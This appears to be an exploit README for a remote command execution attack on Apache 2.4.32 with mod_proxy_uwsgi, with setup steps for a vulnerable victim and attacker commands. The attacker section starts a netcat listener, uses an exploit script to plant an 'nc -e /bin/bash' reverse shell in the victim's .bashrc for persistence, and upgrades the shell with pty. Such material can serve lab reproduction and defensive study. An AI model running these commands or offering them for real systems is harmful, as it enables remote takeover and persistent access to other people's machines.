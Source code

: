 # Exploit
## Victim requirements
* Apache 2.4.32
* mod_proxy_uwsgi enabled

```
sudo apt-get install libapr1-dev libaprutil1-dev libpcre3-dev
wget https://archive.apache.org/dist/httpd/httpd-2.4.32.tar.gz
tar -xvf httpd-2.4.32.tar.gz
cd httpd-2.4.32/
./configure --prefix=/usr/local/apache2 --enable-mods-shared=all --enable-deflate --enable-proxy --enable-proxy-balancer --enable-proxy-http
make
sudo make install
sudo a2enmod proxy_uwsgi
sudo cp /usr/local/apache2/bin/apachectl /etc/init.d/apache2
sudo chmod +x /etc/init.d/apache2
sudo service apache2 start
```
```
# edit file /usr/local/apache2/conf/httpd.conf
<VirtualHost *:80>
    ProxyPass "/" "uwsgi://localhost:8080/"
    LimitRequestFieldSize 1048576
</VirtualHost>
```

## Victim

Start the uswgi server with the following command:
```
uwsgi --puwsgi-socket localhost:8080 --wsgi-file foobar.py
```

## Attacker

Run this commands from the attacker's machine:
```
# start listening for a reverse shell
nc -lvp 1234
```
```
IP_VICTIM=10.0.2.10
IP_ATTACKER=$(hostname -I)
python3 uwsgi_exp.py -u $IP_VICTIM -c "echo 'nc -e /bin/bash $IP_ATTACKER 1234 2>/dev/null &' >> ~/.bashrc"
python3 uwsgi_exp.py -u $IP_VICTIM -c "gnome-terminal"
```

A reverse shell will be opened on the victim's machine. Spawn a bash shell with the following command:
```
python -c 'import pty; pty.spawn("/bin/bash")'
```

